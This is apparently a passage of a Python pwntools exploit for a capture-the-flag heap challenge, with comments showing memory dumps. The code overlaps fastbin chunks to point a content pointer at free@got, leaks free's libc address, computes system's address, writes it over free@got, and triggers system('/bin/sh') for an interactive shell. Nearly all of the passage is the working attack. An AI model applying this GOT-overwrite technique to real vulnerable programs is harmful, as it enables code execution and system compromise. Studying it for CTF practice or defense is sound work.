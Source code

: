 ```python
    # fastbins
    # 0x20: 0x12b6060 <== chunk2's content
    # 0x30: 0x0
    # 0x40: 0x12b6040 <== chunk2's size
    # 0x50: 0x0
    # 0x60: 0x0
    # 0x70: 0x0
    # 0x80: 0x0
    # Create(0x30,'aaaa')
    # 0x925000: 0x0000000000000000  0x0000000000000021 <== chunk1's struct
    # 0x925010: 0x0000000000000018  0x0000000000925030 <== ponit to chunk1's size and content
    # 0x925020: 0x0000000000000000  0x0000000000000021 <== chunk1's content
    # 0x925030: 0x0068732f6e69622f  0x6161616161616161
    # 0x925040: 0x6161616161616161  0x0000000000000041 <== new chunk2's content
    # 0x925050: 0x0000000061616161  0x0000000000925070
    # 0x925060: 0x0000000000000000  0x0000000000000021 <== new chunk2's struct
    # 0x925070: 0x0000000000000030  0x0000000000925050 <== point to new chunk2's size and content

    # trigger heap 2's size to fastbin 0x40
    # heap 2's content to fastbin 0x20

    Create(0x30,p64(0)*4+p64(0x30)+p64(free_got))
    # new heap 2's struct will point to old heap 2's content, size 0x20
    # new heap 2's content will point to old heap 2's strcut, size 0x30
    # that is to say we can overwrite new heap 2's struct
    # here we overwrite its heap content pointer to free@got(when we print, printf will print the loacation which free@got point to)
    size,content=Show(1)
    # 0x785040: 0x6161616161616161  0x0000000000000041 <== new chunk2's content
    # 0x785050: 0x0000000000000000  0x0000000000000000
    # 0x785060: 0x0000000000000000  0x0000000000000000 <== new chunk2's size which was overwrite right now
    # 0x785070: 0x0000000000000030  0x0000000000602018 <== point to new shcunk2's size and content

    # leak address
    log.success('size = %d, content = %#x'%(size,u64(content.ljust(8,'\x00'))))
    # debug()

    free_addr = u64(content.ljust(8,'\x00'))
    libc_base = free_addr - libc.sym['free']
    system_addr = libc_base + libc.sym['system']
    log.info('system_addr = %#x',system_addr)

    # overwrite free@got with system addr
    Edit(1, p64(system_addr))
    # trigger system("/bin/sh")
    # debug()
    Delete(0)
    p.interactive()
```
